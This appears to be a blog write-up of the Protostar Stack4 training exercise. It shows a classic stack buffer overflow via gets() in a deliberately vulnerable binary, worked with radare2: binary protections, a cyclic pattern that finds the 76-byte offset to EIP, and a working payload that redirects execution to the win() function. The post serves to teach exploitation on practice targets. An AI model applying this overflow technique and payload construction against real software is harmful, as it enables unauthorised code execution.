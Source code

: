 ```yaml
---
layout: post
section-type: post
title: Exploiting Protostar Stack4 using radare2
category: buffer_overflow
tags: [ 'buffer_overflow', 'stack_overflow', 'radare2', 'protostar', 'write_up' ]
---
```

# Exploiting Protostar Stack4

[Problem link](https://exploit-exercises.com/protostar/stack4/)

You can check previous problems here :

- [Stack0]({{site.baseurl}}/buffer_overflow/2017/12/16/exploiting_protostar_stack0.html)
- [Stack1]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack1.html)
- [Stack2]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack2.html)
- [Stack3]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack3.html)

## Problem source code

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}

We will work in this problem as we do not have the C source code

## First we want to know more info about the binary

{% highlight shell-session %}
$rabin2 -I stack4
arch     x86
binsz    22860
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    NONE
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As you can clearly see, our binary is a 32bit ELF file, not stripped, the file isn’t protected with canaries , pic, nx or relro.

## Let's run the app and see it working

{% highlight shell-session %}
$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    22623 segmentation fault (core dumped)  ./stack4
{% endhighlight %}

## Let's have a look on what's happening inside the app

We will start the app inside Radare2 and have a look in Visual Mode to try understanding how it's working

{% highlight shell-session %}
$ python -c 'print "A" * 100' > payload.txt
$ cat payload.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ vim r2profile.rr2
$ cat r2profile.rr2
#!/usr/bin/rarun2
stdin=./payload.txt
$ r2 -d stack4 -e dbg.profile=r2profile.rr2
Process with PID 23438 started...
= attach 23438 23438
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aas
[0xb7fdba30]> iE
[Exports]
vaddr=0x080483f4 paddr=0x000003f4 ord=056 fwd=NONE sz=20 bind=GLOBAL type=FUNC name=win
vaddr=0x08048408 paddr=0x00000408 ord=067 fwd=NONE sz=23 bind=GLOBAL type=FUNC name=main
[0xb7fdba30]> dcu main
Continue until 0x08048408 using 1 bpsize
hit breakpoint at: 8048408
[0x08048408]> VV
{% endhighlight %}

We used `iE` to get the address of win function because we will need it later in our exploit.

So our main **Goal** is to override `eip` with `0x080483f4`

This how the function looks like in Visual Mode
{% highlight nasm %}
  .----------------------------------------------.
  | [0x8048408] ;[gb]                            |
  |   ;-- main:                                  |
  |   ;-- eip:                                   |
  | (fcn) sym.main 23                            |
  |   sym.main ();                               |
  | ; var int local_10h @ esp+0x10               |
  |    ; DATA XREF from 0x08048357 (sym._start)  |
  | push ebp                                     |
  | mov ebp, esp                                 |
  | and esp, 0xfffffff0                          |
  |    ; 'P'                                     |
  | sub esp, 0x50                                |
  |    ; 0x10                                    |
  |    ; 16                                      |
  | lea eax, dword [local_10h]                   |
  | mov dword [esp], eax                         |
  | call sym.imp.gets;[ga]                       |
  | leave                                        |
  | ret                                          |
  `----------------------------------------------'
{% endhighlight %}

Now we’ll use a tool in radare’s framework called `ragg2`, which allows us to generate a cyclic pattern called [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) and check the exact offset where our payload overrides the buffer.

{% highlight shell-session %}
$ ragg2 -P 100 -r > payload.txt
$ cat payload.txt
AAABAACAADAAEAAFAAGAAHAAIAAJA....AVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
$ r2 -d stack4 -e dbg.profile=r2profile.rr2
Process with PID 24705 started...
= attach 24705 24705
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41614141 code=1 ret=0
[0x41614141]> wopO eip
76
{% endhighlight %}

Now let's create a new payload with the right value of `eip`

{% highlight shell-session %}
$ python -c 'print "A" * 76 + "\xf4\x83\x04\x08" + 20 * "B"' > payload.txt
$ r2 -d stack4 -e dbg.profile=r2profile.rr2
Process with PID 25011 started...
= attach 25011 25011
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
code flow successfully changed
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
[0x42424242]>

{% endhighlight %}

And we did it ;)

